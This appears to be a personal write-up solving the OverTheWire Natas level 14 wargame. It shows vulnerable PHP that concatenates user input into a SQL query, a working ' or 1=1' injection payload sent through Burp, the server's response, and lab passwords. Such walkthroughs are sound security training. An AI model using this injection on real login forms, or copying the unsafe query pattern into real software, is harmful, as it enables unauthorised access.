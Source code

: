 
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

![[Images/Pasted image 20240705142006.png]]

```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">

<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

First trying the basic  " or 1=1-- -
and got the password
![[Images/Pasted image 20240705143338.png]]


Since we can see int he code that if we send a get request with a key called debug we get the query back, let's test that

(In burp we right click the request after sending it to repeater and select Change request method)
We then add debug& before the password:
```http
GET /index.php?debug&username=admin&password=%22+or+1%3D1--+- HTTP/1.1
Host: natas14.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://natas14.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNDp6M1VZY3I0djR1QnBlWDhmN0VaYk1IbHpLNFVSMlh0UQ==
Connection: keep-alive
Referer: http://natas14.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


```

body part of the response
```http
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin" and password="" or 1=1-- -"<br>Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```

